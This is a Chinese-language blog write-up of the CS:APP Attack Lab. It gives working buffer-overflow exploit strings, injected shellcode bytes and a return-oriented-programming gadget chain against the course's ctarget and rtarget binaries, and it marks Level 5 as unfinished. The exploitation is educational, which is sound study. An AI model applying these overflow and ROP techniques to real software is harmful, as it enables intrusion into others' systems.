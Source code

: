 ```yaml
---
layout: post
title:  "CS:APP Attack Bomb"
categories: Labs
tags: [reverse engineering, disassembling, code injection]
toc: true
--- 
```

There is some of the same fitness in a man's building his own house that there is in a bird's building its own nest. 
{: .message }

利用缓冲区溢出，完成代码注入与面向返回指令的攻击，深化理解栈机制。

使用 ctarget/rtarget 时，添加 -q 指令避免向服务器请求打分。

总体上有五个实验阶段。

## Level 1

目标是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch1函数开始处。
{% highlight cpp %}
void test()
{
 int val;
 val = getbuf();
 printf("No exploit. Getbuf returned 0x%x\n", val);
}
{% endhighlight %}

经过 `objdump -d ctarget` 后节选test汇编代码，
{% highlight nasm %}
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
{% endhighlight %}

需要将 401976 地址替换成 touch1 开始地址 4017c0 ，而在函数 getbuf 中栈空间为缓冲区预留了 0x28(40) 个字节，
{% highlight nasm %}
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq 
  4017be:	90                   	nop
  4017bf:	90                   	nop
{% endhighlight %}

所以只需要溢出 40 个字节替换返回地址即可，勿忘输入字符串会额外添加 terminator 且小端编码，
> X X .. X c0 17 40

## Level 2

目标是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch2函数开始处，并以指定整数值作为参数，为此需要注入代码。

注入指令代码，
{% highlight nasm %}
 # Level 2 injection code
	movq $0x59b997fa, %rdi	# use cookie value as 1st parameter of touch2
	push $0x4017ec		# push touch2 address
	retq			# return to touch2
{% endhighlight %}

注意，指令中用的是立即数，小心编写指令。

溢出两个地址，会产生段错误，可能是因为原先栈位置的值被使用了。

题目要求使用 ret 转移控制，可以通过指令压入 touch2 开始地址。

注入代码在栈上，通过 GDB 调试命令
`
print /x $rsp
`
可以得到buf开始地址为 0x5561dc78 ，大小为 40 个字节。注入代码就放在 buf 中，需要注意栈是向下(向地址0)处增长的，所以代码直接正放即可，

这里需要将指令转为十六进制，再转为 ASCII，可以用 gcc 与 objdump 转换十六进制，用 Lab 提供的工具 hex2raw 转ASCII码。

十六进制表示为，
{% highlight nasm %}
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00 /* pushq  $0x4017ec */
c3 /* retq */
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 /* 27 bytes */
78 dc 61 55 00 00 00 00 /* buf start address 0x5561dc78 */
{% endhighlight %}

## Level 3

目标是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch3函数开始处，并以指定字符串作为参数，为此需要注入代码。

需要注意的是，由于 touch3 函数会调用 hexmatch 与 strncmp 函数，栈空间会变化与重写，字符串数据不能简单地放在 buf 中。

字符串数据放在缓冲区溢出的地址 0x5561dca8 处，注入指令代码，
{% highlight nasm %}
 # Level 3 injection code
	movq $0x5561dca8, %rdi	# string start address
	push $0x4018fa		# push touch3 address
	retq			# return touch3
{% endhighlight %}

注入代码与数据的对应十六进制表示为，
{% highlight nasm %}
48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00 /* pushq  $0x4018fa */
c3 /* retq */
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 /* 27 bytes */
78 dc 61 55 00 00 00 00 /* buf start address 0x5561dc78 */
35 39 62 39 39 37 66 61 /* cookie 59b997fa ASCII value */
{% endhighlight %}

## Level 4

第二部分的 rtarget 开始(1)使用栈随机化，使得注入代码难以定位，(2)限制栈区域内存为 nonexecutable (不可执行)，即使通过溢出地址定位到注入代码，程序也不会执行(发生段错误)。

因此，不是注入代码进行攻击，而是利用现有代码。例如，
{% highlight nasm %}
0000000000400f15 <setval_210>:
	400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
	400f1b: c3 retq
{% endhighlight %}

通过溢出地址，可以将 PC(Program Counter) 定位到 0x400f18 处，序列 48 89 c7 是指令 movq %rax, %rdi 的编码。由此，我们可以改变程序行为。

我们可以说 movl $0xc78948d4,(%rdi) 这个指令是，
> this code contains a gadget

本阶段的目标同 Level 2 一样，只是需要通过抽取 gadget 完成参数赋值。根据 Lab 限定的范围与提示，我们需要完成以下两个指令(可插入 nop)，
{% highlight nasm %}
popq %rax
movq %rax, %rdi
{% endhighlight %}

相应的函数为，

function | start address | gadget address | instruction
--- | --- | --- | ---
addval_219 | 0x4019a7 | 0x4019ab | popq %rax
setval_426 | 0x4019c3 | 0x4019c5 | movq %rax, %rdi

为此构造的 exploit string 的十六进制表示为，
{% highlight nasm %}
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 /* 40 bytes */
ab 19 40 00 00 00 00 00 /* popq %rax instruction address */
fa 97 b9 59 00 00 00 00 /* para value to %rax : 0x59b997fa */
c5 19 40 00 00 00 00 00 /* movq %rax, %rdi instruction address 0x4019c5 */
ec 17 40 00 00 00 00 00 /* touch2 start address */
{% endhighlight %}

## Level 5

待续。

## Conclusions

通过 Level1~3 的实验我们可以看到，(1)通过缓冲区溢出返回地址，可以使程序跳转到指定地址，(2)在不限制内存的可执行代码区域时，用户可以向缓冲区内注入代码。

如果 ctarget 是一个网络服务器，我们将可以向远程机器注入代码，改变服务器的行为。

通过 Level 4 我们可以看到，如何绕过两种防止缓冲区溢出攻击的机制，即通过已有代码的片段(gadget)改变程序行为。

{% highlight nasm %}

{% endhighlight %}

## Reference
1. [CS:APP Lab Assignments](http://csapp.cs.cmu.edu/3e/labs.html)
2. [attack lab readme](http://csapp.cs.cmu.edu/3e/README-attacklab)
3. [attack lab writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)
4. [Beej's Quick Guide to GDB](http://beej.us/guide/bggdb/)
